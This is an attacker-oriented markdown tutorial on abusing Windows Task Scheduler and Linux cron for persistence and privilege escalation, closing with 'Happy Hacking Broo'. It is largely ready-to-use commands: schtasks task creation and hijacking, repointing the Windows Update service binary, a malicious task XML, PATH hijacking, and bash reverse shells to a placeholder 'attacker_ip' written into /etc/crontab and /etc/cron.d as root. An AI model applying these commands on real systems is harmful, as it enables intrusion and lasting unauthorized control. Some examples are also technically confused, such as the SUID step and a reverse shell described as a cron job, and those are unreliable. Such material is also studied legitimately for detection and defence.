


# Table of Contents

- [Abusing Scheduled Tasks](#abusing-scheduled-tasks)
  - [1. Scheduled Tasks in Windows](#1-scheduled-tasks-in-windows)
    - [How Scheduled Tasks Work in Windows](#how-scheduled-tasks-work-in-windows)
    - [Common Techniques for Abusing Scheduled Tasks](#common-techniques-for-abusing-scheduled-tasks)
  - [2. Cron Jobs in Linux](#2-cron-jobs-in-linux)
    - [How Cron Jobs Work in Linux](#how-cron-jobs-work-in-linux)
    - [Common Techniques for Abusing Cron Jobs](#common-techniques-for-abusing-cron-jobs)
  - [Abusing Scheduled Tasks in Windows - Advanced Techniques](#abusing-scheduled-tasks-in-windows---advanced-techniques)
    - [A. Exploiting Event Triggers in Task Scheduler](#a-exploiting-event-triggers-in-task-scheduler)
    - [B. Exploiting Services with Scheduled Tasks](#b-exploiting-services-with-scheduled-tasks)
    - [C. Abusing Task XML Files](#c-abusing-task-xml-files)
  - [Abusing Cron Jobs in Linux - Advanced Techniques](#abusing-cron-jobs-in-linux---advanced-techniques)
    - [A. Exploiting Cron Jobs with Environment Variables](#a-exploiting-cron-jobs-with-environment-variables)
    - [B. Exploiting Cron Jobs with SUID](#b-exploiting-cron-jobs-with-suid)
    - [C. Writing to Cron Files](#c-writing-to-cron-files)
    - [D. Abusing the Cron Daemon](#d-abusing-the-cron-daemon)
  - [3. Advanced Techniques for Maintaining Persistence](#3-advanced-techniques-for-maintaining-persistence)
    - [A. Task Replication](#a-task-replication)
    - [B. Exploiting Mutexes and Locks](#b-exploiting-mutexes-and-locks)


# **ABUSING SCHEDULED TASKS**

Abusing scheduled tasks is a technique attackers use to gain unauthorized access, escalate privileges, or maintain persistence on a compromised system. This technique leverages misconfigurations, weak permissions, or overlooked vulnerabilities in task scheduling mechanisms. Below is a detailed explanation of this tactic for both Windows and Linux environments.





## **1. Scheduled Tasks in Windows**

**`Windows Task Scheduler allows administrators and users to schedule programs or scripts to run at specific times or intervals. Attackers exploit misconfigured tasks or create new ones to execute malicious payloads.`**

In Windows, **Task Scheduler** is a service that runs tasks at predefined times or on specific events. These tasks are usually used for administrative purposes, such as system maintenance, updates, and backups. However, attackers can exploit these tasks for malicious purposes, including privilege escalation, persistence, and executing arbitrary code.

## **How Scheduled Tasks Work in Windows**

Windows scheduled tasks are stored in the **Task Scheduler Library** and can be viewed, modified, or created using the `schtasks` command or the Task Scheduler GUI. The tasks are typically configured with:

- **Triggers**: When the task will run (e.g., on system startup, at a specific time, or on a specific event).
- **Actions**: What the task will do (e.g., run a script, program, or command).
- **Conditions**: Conditions under which the task will run (e.g., only if the system is idle).
- **Settings**: Additional settings like task repetition or stopping the task if it runs for too long.

### **Common Techniques for Abusing Scheduled Tasks**

1. **Creating a New Malicious Task**
   Attackers can create a new scheduled task that runs a reverse shell, payload, or malicious script. For example, creating a task that runs a reverse shell every minute:

```powershell
schtasks /create /tn "MaliciousTask" /tr "C:\path\to\malicious.exe" /sc minute /mo 1
```

- This task runs the malicious executable every minute, providing persistent access.

2. **Modifying an Existing Task**
   If an attacker has sufficient privileges (e.g., administrative or SYSTEM), they can modify existing tasks. This could involve changing the task's action to run a malicious payload instead of the intended program. For example:

```powershell
schtasks /change /tn "ExistingTask" /tr "C:\path\to\malicious.exe"
```

- This could be used to hijack a legitimate task to execute a malicious program.

3. **Exploiting Misconfigured Permissions**
   Scheduled tasks may have misconfigured permissions, allowing lower-privileged users to modify them. If an attacker has write access to the task's configuration file (typically found in `C:\Windows\System32\Tasks`), they can replace the task's action with malicious code. For example:
   - Navigate to the `C:\Windows\System32\Tasks` folder.
   - Modify the task's XML configuration to point to a malicious executable.
   
   This method is stealthy because it exploits the permissions of the file system rather than the Task Scheduler service itself.

4. **Persistence via Task Creation**
   Even if an attacker's session is terminated, they can create a scheduled task to run malicious code at the next system boot or login. For example:

```powershell
schtasks /create /tn "PersistenceTask" /tr "C:\path\to\malicious.exe" /sc onstart
```

- This ensures that the malicious executable runs every time the system starts.

5. **Abusing Task Triggers**
   Scheduled tasks can be triggered by various events, such as system startup, user logon, or specific system events. Attackers can abuse these triggers to run their payloads at specific times or under specific conditions:
   - **On startup**: A task that runs every time the system boots can give attackers persistent access.
   - **On logon**: A task triggered when a user logs in can be used to execute malicious code when a specific user logs in.

## **2. Cron Jobs in Linux**

In Linux, **cron** is a daemon that executes scheduled commands or scripts at specified times. The cron service is typically used for system maintenance tasks, backups, or periodic jobs. Like Windows Task Scheduler, cron jobs can also be abused by attackers to escalate privileges, maintain persistence, or execute arbitrary code.

### **How Cron Jobs Work in Linux**

Cron jobs are defined in the following places:

- **User-specific cron jobs**: Stored in `/var/spool/cron/crontabs/username` or accessed via `crontab -e` for a specific user.
- **System-wide cron jobs**: Stored in `/etc/crontab` and `/etc/cron.*` directories (e.g., `/etc/cron.daily`, `/etc/cron.hourly`).

Each cron job consists of:

- **Time and Date**: The schedule for the job (minute, hour, day of month, month, day of week).
- **Command to Run**: The script or command that will be executed.

### **Common Techniques for Abusing Cron Jobs**

1. **Adding Malicious Cron Jobs**
   An attacker with sufficient privileges can add a new cron job to run a reverse shell or backdoor. For example, adding a cron job to run a reverse shell every minute:

```bash
/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

- This creates a cron job that opens a reverse shell to the attacker's IP address every minute.

2. **Modifying Existing Cron Jobs**
   If an attacker has write access to the crontab (e.g., via `crontab -e` or by modifying files in `/etc/cron.d/`), they can modify existing cron jobs to execute malicious commands. For example:

```bash
crontab -e
```

- Modify the existing cron job to execute a malicious payload.

3. **Exploiting Misconfigured Permissions**
   Cron jobs are often stored in files with specific permissions. If these files are writable by a non-privileged user, they can be modified to run malicious code. Attackers can exploit this vulnerability to inject malicious commands into cron job files. For example, modifying `/etc/crontab` to include a malicious command:

```bash
* * * * * root /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

4. **Persistence via Cron Jobs**
   Cron jobs can be used for persistence. Even if an attacker's access is terminated, a cron job can be created to re-establish the attacker's connection or re-execute a payload at regular intervals. This ensures that the attacker maintains control over the system even after a reboot or a session termination.

## **Abusing Scheduled Tasks in Windows - Advanced Techniques**

### **A. Exploiting Event Triggers in Task Scheduler**

**Event Triggers** allow tasks to be triggered based on specific system events. Attackers can exploit this feature to run malicious code when certain events occur, such as:

- **At User Logon**: A task can be set to run when any user logs in.
- **On System Errors**: A task can be triggered when a specific error event occurs (e.g., Event ID 1000).

Example:

```powershell
schtasks /create /tn "MaliciousEventTrigger" /tr "C:\malicious.exe" /sc onevent /ec System /mo "*[System[Provider[@Name='Microsoft-Windows-Security-Auditing'] and (EventID=4624)]]"
```

This task will execute whenever a successful logon event (Event ID 4624) occurs.

### **B. Exploiting Services with Scheduled Tasks**

Sometimes, scheduled tasks are linked to system services. An attacker can modify a service to run malicious code via a scheduled task.

- **Exploiting Services like Windows Update**: If a service like Windows Update runs with high privileges, an attacker could modify the scheduled tasks associated with it to run malicious code.

Example:

```powershell
sc config wuauserv binPath= "C:\path\to\malicious.exe"
```

This command modifies the Windows Update service to execute malicious code instead of updating the system.

### **C. Abusing Task XML Files**

Each scheduled task in Windows is stored in an XML file under `C:\Windows\System32\Tasks`. If an attacker gains write access to these files, they can easily modify the task to run malicious code.

Example:

- Modifying an XML file to include malicious code

```xml
<Task>
<RegistrationInfo>
<Date>2025-01-23T00:00:00</Date>
<Author>MaliciousUser</Author>
</RegistrationInfo>
<Triggers>
<LogonTrigger>
<Enabled>true</Enabled>
<Delay>PT5M</Delay>
</LogonTrigger>
</Triggers>
<Actions>
<Exec>
<Command>C:\path\to\malicious.exe</Command>
</Exec>
</Actions>
</Task>
```

Once modified, this task will execute malicious code every time a user logs in.

---

## **Abusing Cron Jobs in Linux - Advanced Techniques**

### **A. Exploiting Cron Jobs with Environment Variables**

In Linux, attackers can exploit **Environment Variables** to alter the behavior of scheduled tasks. For example, if a scheduled task uses environment variables that are not properly secured, an attacker could modify them to execute malicious code.

Example:

```bash
export PATH=/bin:/usr/bin:/path/to/malicious:$PATH
crontab -e
```

Here, the attacker modifies the `PATH` variable to include a directory with malicious programs, which will be executed by any scheduled task.

### **B. Exploiting Cron Jobs with SUID**

If a scheduled task uses files or scripts with **SUID** (Set User ID) permissions, an attacker can exploit this to execute commands with the privileges of the file owner.

Example:

- If there is a cron job running a script with **SUID** permissions, the attacker could modify the script to include malicious commands, such as opening a reverse shell:

```bash
chmod u+s /path/to/script
/path/to/script
```

The **SUID** flag allows the attacker to execute the script with the privileges of the user who owns the script, potentially granting elevated access.

### **C. Writing to Cron Files**

In some cases, an attacker may gain write access to cron job files directly in `/etc/cron.d/` or `/var/spool/cron/crontabs/`. If these files are not properly secured, the attacker can add malicious tasks.

Example:

```bash
echo "* * * * * root /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" > /etc/cron.d/malicious
```

This command adds a cron job that opens a reverse shell every minute, connecting back to the attacker's system.

### **D. Abusing the Cron Daemon**

An attacker can exploit the **Cron Daemon** itself if it is misconfigured. For example, by exploiting insecure configurations in `/etc/crontab` or `/etc/cron.d/`, an attacker can execute malicious code.

Example:

- Adding a malicious task to cron:

```bash
echo "* * * * * root /path/to/malicious.sh" >> /etc/crontab
```

If the attacker has write access to these files, they can add cron jobs to run malicious scripts.

---

## **3. Advanced Techniques for Maintaining Persistence**

### **A. Task Replication**

An attacker can create multiple scheduled tasks that run at different times, making it harder to detect the original malicious task. Each task can be set to run at different intervals, ensuring continued access to the system even if some tasks are discovered and removed.

### **B. Exploiting Mutexes and Locks**

Some scheduled tasks use **Mutexes** (mutual exclusions) or **Locks** to prevent the same task from running multiple times. An attacker can exploit this by using these mechanisms to execute malicious tasks in sequence or even prevent legitimate tasks from running.

---

**`Happy Hacking Broo`**

---